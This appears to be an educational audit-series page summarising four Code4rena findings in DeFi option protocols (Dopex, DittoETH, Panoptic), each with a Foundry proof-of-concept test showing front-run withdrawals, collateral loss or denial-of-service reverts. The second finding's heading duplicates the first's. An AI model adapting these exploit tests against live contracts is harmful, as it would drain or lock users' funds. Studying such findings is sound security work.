 # ETAAcademy-Adudit: 6. Option

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>06. Option</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>option</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Put settlement

- Summary: Liquidity providers in PerpetualAtlanticVaultLP can anticipate potential losses from in-the-money put options, allowing them to withdraw liquidity before losses occur. This creates a disadvantage for slower or less technically savvy users. The issue is rooted in the predictability of settlement price thresholds and the LPs' ability to redeem collateral at any time, potentially draining available collateral and hindering market participation for other users.

- Impact & Recommendation: The severity is high because new depositors face guaranteed losses without a clear solution. Possible fixes include implementing a "cooling off period" for withdrawals or minting more shares to reward long-term holders, but both options impact the project's token economics.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-02-put-settlement-can-be-anticipated-and-lead-to-user-losses-and-bonding-dos) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.19;
    import { Test } from "forge-std/Test.sol";
    import "forge-std/console.sol";
    import { ERC721Holder } from "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";
    import { Setup } from "./Setup.t.sol";
    import { PerpetualAtlanticVault } from "contracts/perp-vault/PerpetualAtlanticVault.sol";
    contract PoC is ERC721Holder, Setup {
    // ================================ HELPERS ================================ //
    function mintWeth(uint256 _amount, address _to) public {
        weth.mint(_to, _amount);
    }
    function mintRdpx(uint256 _amount, address _to) public {
        rdpx.mint(_to, _amount);
    }
    function deposit(uint256 _amount, address _from) public {
        vm.startPrank(_from, _from);
        vaultLp.deposit(_amount, _from);
        vm.stopPrank();
    }
    function purchase(uint256 _amount, address _as) public returns (uint256 id) {
        vm.startPrank(_as, _as);
        (, id) = vault.purchase(_amount, _as);
        vm.stopPrank();
    }
    function setApprovals(address _as) public {
        vm.startPrank(_as, _as);
        rdpx.approve(address(vault), type(uint256).max);
        rdpx.approve(address(vaultLp), type(uint256).max);
        weth.approve(address(vault), type(uint256).max);
        weth.approve(address(vaultLp), type(uint256).max);
        vm.stopPrank();
    }
    // ================================ CORE ================================ //
    /**
    Assumptions & config:
        - address(this) is impersonating the rdpxV2Core contract
        - premium per option: 0.05 weth
        - epoch duration: 1 day; 86400 seconds
        - initial price of rdpx: 0.2 weth
        - pricing precision is in 0.1 gwei
        - premium precision is in 0.1 gwei
        - rdpx and weth denomination in wei
    **/
    function testPoCHigh3() external {
        // Setup starts here ----------------------------->
        setApprovals(address(1));
        setApprovals(address(2));
        setApprovals(address(3));
        mintWeth(5 ether, address(1));
        mintWeth(5 ether, address(2));
        mintWeth(25 ether, address(3));
        /// The users deposit
        deposit(5 ether, address(1));
        deposit(5 ether, address(2));
        deposit(25 ether, address(3));
        uint256 userBalance = vaultLp.balanceOf(address(1));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(2));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(3));
        assertEq(userBalance, 25 ether);
        // premium = 100 * 0.05 weth = 5 weth
        uint256 tokenId = purchase(100 ether, address(this)); // 0.015 gwei * 100 ether / 0.1 gwei = 15 ether collateral activated
        skip(86500); // expires epoch 1
        vault.updateFunding();
        vault.updateFundingPaymentPointer();
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 0.015 gwei;
        uint256 fundingAccrued = vault.calculateFunding(strikes);
        assertEq(fundingAccrued, 5 ether);
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;
        /// ---------------- POC STARTS HERE ---------------------------------------------------///
        // At this point the Core contract has purchased options to sell 100 rdpx tokens
        // The market moves against `rdpx` and the puts are now in the money
        priceOracle.updateRdpxPrice(0.010 gwei);
        // Bob, a savvy user, sees there is collateral available to withdraw, and
        // because he monitors the price he knows the vault is about to take a loss
        // thus, he withdraws his capital, expecting a call to settle.
        userBalance = vaultLp.balanceOf(address(1));
        vm.startPrank(address(1));
        vaultLp.redeem(userBalance, address(1), address(1));
        vm.stopPrank();
        vm.startPrank(address(this), address(this));
        (uint256 ethAmount, uint256 rdpxAmount) = vault.settle(tokenIds);
        vm.stopPrank();
        // Bob now re-enters the LP Vault
        vm.startPrank(address(1));
        vaultLp.deposit(weth.balanceOf(address(1)), address(1));
        vm.stopPrank();
        // Now we tally up the scores
        console.log("User Bob ends with (WETH, RDPX, Shares):");
        userBalance = vaultLp.balanceOf(address(1));
        (uint256 aBob, uint256 bBob) = vaultLp.redeemPreview(userBalance);
        console.log(aBob, bBob, userBalance);
        userBalance = vaultLp.balanceOf(address(2));
        (uint256 aDave, uint256 bDave) = vaultLp.redeemPreview(userBalance);
        console.log("User Dave ends with (WETH, RDPX, Shares):");
        console.log(aDave, bDave, userBalance);
        /**
            Bob and Dave both started with 5 ether deposited into the vault LP.
            Bob ends up with shares worth 4.08 WETH + 16.32 RDPX
            Dave ends up with shares worth 3.48 WETH + 13.94 RDPX
            Thus we can conclude that by anticipating calls to `settle`,
            either by monitoring the market or through front-running,
            Bob has forced Dave to take on more of the losses.
        */
    }
    }

  ```

  </details>

## 2.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Set minimum  timeToExpiry

- Summary: The problem occurs in the PerpetualAtlanticVault contract when attempting to purchase options. If the time difference between the next funding payment and the current block time is less than 864 seconds, it causes the option pricing to use a time to expiry of 0, resulting in a revert. This leads to unexpected reverts approximately every 14 minutes during each funding epoch.

- Impact & Recommendation: Set minimum  timeToExpiry  inside  calculatePremium.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-06-bond-operations-will-always-revert-at-certain-time-when-putoptionsrequired-is-true) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testOptionPricingRevert() public {
        OptionPricingSimple optionPricingSimple;
        optionPricingSimple = new OptionPricingSimple(100, 5e6);
        (uint256 rdpxRequired, uint256 wethRequired) = rdpxV2Core
            .calculateBondCost(1 * 1e18, 0);
        uint256 currentPrice = vault.getUnderlyingPrice(); // price of underlying wrt collateralToken
        uint256 strike = vault.roundUp(currentPrice - (currentPrice / 4)); // 25% below the current price
        // around 14 minutes before next funding payment
        vm.warp(block.timestamp + 7 days - 863 seconds);
        uint256 timeToExpiry = vault.nextFundingPaymentTimestamp() -
            block.timestamp;
        console.log("What is the current price");
        console.log(currentPrice);
        console.log("What is the strike");
        console.log(strike);
        console.log("What is time to expiry");
        console.log(timeToExpiry);
        uint256 price = vault.getUnderlyingPrice();
        // will revert
        vm.expectRevert();
        optionPricingSimple.getOptionPrice(strike, price, 100, timeToExpiry);
    }

  ```

  </details>

## 3.[High] Closing a SR during a wrong redemption proposal leads to loss of funds

### Collateral added to closed SR by disputed Redemption

- Summary: A vulnerability in the DittoETH protocol can lead to a loss of funds when closing a Short Record (SR) during a wrong redemption proposal. When a user creates a redemption proposal with the proposeRedemption function, they must provide a list of SRs with the lowest collateral ratios (CR) in ascending order. If the list is incorrect, anyone can dispute it using the disputeRedemption function. However, if an SR is closed (due to liquidation, exiting, or transfer) between proposing and disputing, its collateral is added to the closed SR and cannot be recovered.

- Impact & Recommendation: Reopening closed SRs could resolve the issue but might be misused to avoid liquidations.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-06-closing-a-sr-during-a-wrong-redemption-proposal-leads-to-loss-of-funds) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity
function test_dispute_on_non_existing_sr() public {
    // setup shorts
    makeShorts({singleShorter: true});
    _setETH(1000 ether);
    skip(1 hours);
    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);
    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);
    // user creates a wrong proposal
    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID + 1, shortId2: C.SHORT_STARTING_ID + 2});
    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, DEFAULT_AMOUNT * 3 / 2, MAX_REDEMPTION_FEE);
    // on of the SRs in the proposal is closed
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, extra);
    exitShort(C.SHORT_STARTING_ID + 2, DEFAULT_AMOUNT / 2, DEFAULT_PRICE, sender);
    // SR is now closed
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    uint88 collateralBefore = sr3.collateral;
    // another user disputes the wrong proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 0,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID
    });
    // SR is still closed and collateral increased
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    assertGt(sr3.collateral, collateralBefore);
}

```

</details>

## 4.[Medium] Premia calculation can cause DOS

### Premia calculation

- Summary: Premia calculation can cause a Denial of Service (DoS) for certain addresses. If removedLiquidity is high and netLiquidity is extremely low, the calculation in `_getPremiaDeltas` will revert since the amount cannot be cast to uint128.

- Impact & Recommendation: Modify the premia calculation to handle these edge cases and use uint256 for storing premia to avoid casting issues.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-11-panoptic#m-01-premia-calculation-can-cause-dos) & [Report](https://code4rena.com/reports/2023-11-panoptic)

<details><summary>POC</summary>

```solidity
diff --git a/test/foundry/core/SemiFungiblePositionManager.t.sol b/test/foundry/core/SemiFungiblePositionManager.t.sol
index 5f09101..e9eef27 100644
--- a/test/foundry/core/SemiFungiblePositionManager.t.sol
+++ b/test/foundry/core/SemiFungiblePositionManager.t.sol
@@ -5,7 +5,7 @@ import "forge-std/Test.sol";
 import {stdMath} from "forge-std/StdMath.sol";
 import {Errors} from "@libraries/Errors.sol";
 import {Math} from "@libraries/Math.sol";
-import {PanopticMath} from "@libraries/PanopticMath.sol";
+import {PanopticMath,LiquidityChunk} from "@libraries/PanopticMath.sol";
 import {CallbackLib} from "@libraries/CallbackLib.sol";
 import {TokenId} from "@types/TokenId.sol";
 import {LeftRight} from "@types/LeftRight.sol";
@@ -55,7 +55,7 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
     using LeftRight for uint256;
     using LeftRight for uint128;
     using LeftRight for int256;
-
+    using LiquidityChunk for uint256;
     /*//////////////////////////////////////////////////////////////
                            MAINNET CONTRACTS
     //////////////////////////////////////////////////////////////*/
@@ -79,6 +79,7 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         IUniswapV3Pool(0xCBCdF9626bC03E24f779434178A73a0B4bad62eD);
     IUniswapV3Pool constant USDC_WETH_30 =
         IUniswapV3Pool(0x8ad599c3A0ff1De082011EFDDc58f1908eb6e6D8);
+    IUniswapV3Pool constant PEPE_WETH_30 = IUniswapV3Pool(0x11950d141EcB863F01007AdD7D1A342041227b58);
     IUniswapV3Pool[3] public pools = [USDC_WETH_5, USDC_WETH_5, USDC_WETH_30];

     /*//////////////////////////////////////////////////////////////
@@ -189,7 +190,8 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
     /// @notice Set up world state with data from a random pool off the list and fund+approve actors
     function _initWorld(uint256 seed) internal {
         // Pick a pool from the seed and cache initial state
-        _cacheWorldState(pools[bound(seed, 0, pools.length - 1)]);
+        // _cacheWorldState(pools[bound(seed, 0, pools.length - 1)]);
+        _cacheWorldState(PEPE_WETH_30);

         // Fund some of the the generic actor accounts
         vm.startPrank(Bob);
@@ -241,6 +243,93 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         sfpm = new SemiFungiblePositionManagerHarness(V3FACTORY);
     }

+    function testHash_PremiaRevertDueToLowNetHighLiquidity() public {
+        _initWorld(0);
+        vm.stopPrank();
+        sfpm.initializeAMMPool(token0, token1, fee);
+
+        deal(token0, address(this), type(uint128).max);
+        deal(token1, address(this), type(uint128).max);
+
+        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
+        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
+
+        int24 strike = ((currentTick / tickSpacing) * tickSpacing) + 3 * tickSpacing;
+        int24 width = 2;
+        int24 lowTick = strike - tickSpacing;
+        int24 highTick = strike + tickSpacing;
+
+        uint256 shortTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 0, 0, 0, strike, width);
+
+        uint128 posSize = 100_000_000e18; // gives > 2**71 liquidity ~$100
+
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        uint256 accountLiq = sfpm.getAccountLiquidity(address(PEPE_WETH_30), address(this), 0, lowTick, highTick);
+
+        assert(accountLiq.rightSlot() > 2 ** 71);
+
+        // the added liquidity is removed leaving some dust behind
+        uint256 longTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 1, 0, 0, strike, width);
+        sfpm.mintTokenizedPosition(longTokenId, posSize / 2, type(int24).min, type(int24).max);
+        sfpm.mintTokenizedPosition(longTokenId, posSize / 2 , type(int24).min, type(int24).max);
+
+        // fees is accrued on the position
+        vm.startPrank(Swapper);
+        uint256 amountReceived = router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token1, token0, fee, Bob, block.timestamp, 100e18, 0, 0)
+        );
+        (, int24 tickAfterSwap,,,,,) = pool.slot0();
+        assert(tickAfterSwap > lowTick);
+
+
+        router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token0, token1, fee, Bob, block.timestamp, amountReceived, 0, 0)
+        );
+        vm.stopPrank();
+
+        // further mints will revert due to amountToCollect being non-zero and premia calculation reverting
+        vm.expectRevert(Errors.CastingError.selector);
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+    }
+
+    function testHash_DustLiquidityAmount() public {
+        int24 tickLower = 199260;
+        int24 tickUpper = 199290;
+
+        /*
+            amount0 219738690
+            liquidity initial 3110442974185905
+            liquidity withdraw 3110442974185904
+        */
+
+        uint amount0 = 219738690;
+
+        uint128 liquidityMinted = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                amount0
+            );
+
+        // remove liquidity in pieces
+        uint halfAmount = amount0/2;
+        uint remaining = amount0-halfAmount;
+
+        uint128 liquidityRemoval1 = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                halfAmount
+            );
+        uint128 liquidityRemoval2 = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                remaining
+            );
+
+        assert(liquidityMinted - (liquidityRemoval1 + liquidityRemoval2) > 0);
+    }
+
+    function onERC1155Received(address, address, uint256 id, uint256, bytes memory) public returns (bytes4) {
+        return this.onERC1155Received.selector;
+    }
+

```

